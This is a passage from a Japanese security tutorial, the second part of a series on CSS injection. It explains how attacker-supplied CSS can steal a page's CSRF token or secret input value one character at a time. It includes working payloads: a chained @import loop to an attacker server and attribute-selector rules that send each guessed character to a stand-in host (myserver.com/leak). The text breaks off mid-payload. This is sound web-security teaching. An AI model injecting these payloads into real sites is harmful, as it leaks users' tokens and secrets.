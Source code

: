 ```yaml
---
sidebar_position: 18
---
```


# CSSだけで攻撃できる？CSSインジェクション（後編）

前回の記事では、CSSによるデータ盗難の基本的な原理について学び、HackMDを実例としてCSRFトークンの盗難に成功しました。この記事では、CSSインジェクションの詳細について掘り下げ、以下の問題に対処します。

1. HackMDはページを更新せずに新しいスタイルを読み込むことができますが、他のウェブサイトではどうでしょうか？最初の文字以降の文字をどのように盗むことができるでしょうか？
2. 一度に1文字しか盗めない場合、時間がかかりすぎるのではないでしょうか？これは実際に実行可能でしょうか？
3. 属性以外のものを盗む方法はありますか？例えば、ページ上のテキストコンテンツやJavaScriptコードなどです。
4. この攻撃手法に対する防御メカニズムは何でしょうか？

## すべての文字を盗む

前編では、盗みたいデータがページを更新すると変更される可能性がある（例：CSRFトークン）ため、ページを更新せずに新しいスタイルを読み込む必要があることに言及しました。

前回の記事でこれができたのは、HackMD自体がリアルタイム更新を謳っているサービスだからですが、一般的なウェブページではどうでしょうか？JavaScriptを使用できない状況で、どのように新しいスタイルを動的に読み込むことができるでしょうか？

この問題に関して、Pepe Vila氏が2019年に共有したプレゼンテーション[CSS Injection Attacks](https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf)で解答が示されています：[@import](https://developer.mozilla.org/en-US/docs/Web/CSS/@import)。

CSSでは、JavaScriptの `import` のように、`@import` を使用して外部のスタイルをインポートできます。

この機能を利用して、以下のようなコードスニペットでスタイルをインポートするループを作成できます。

```css
@import url(https://myserver.com/start?len=8)
```

次に、サーバーは次のスタイルで応答します。

```css
@import url(https://myserver.com/payload?len=1)
@import url(https://myserver.com/payload?len=2)
@import url(https://myserver.com/payload?len=3)
@import url(https://myserver.com/payload?len=4)
@import url(https://myserver.com/payload?len=5)
@import url(https://myserver.com/payload?len=6)
@import url(https://myserver.com/payload?len=7)
@import url(https://myserver.com/payload?len=8)
```

ここが鍵です。一度に8つインポートしますが、サーバーは次の7つのリクエストに対してハングし、応答を提供しません。最初のURL `https://myserver.com/payload?len=1` のみが応答を返し、その内容は前述のデータ盗難ペイロードです。

```css
input[name="secret"][value^="a"] {
  background: url(https://b.myserver.com/leak?q=a)
}

input[name="secret"][value^="b"] {
  background: url(https://b.myserver.com/leak?q=b)
}

input[name="secret"][value^="c"] {
  background: url(https://b.myserver.com/leak?q=c)
}

//....

input[name="secret"][value^="z"] {
  background: url(https://b.myserver.com/leak?q=z)
```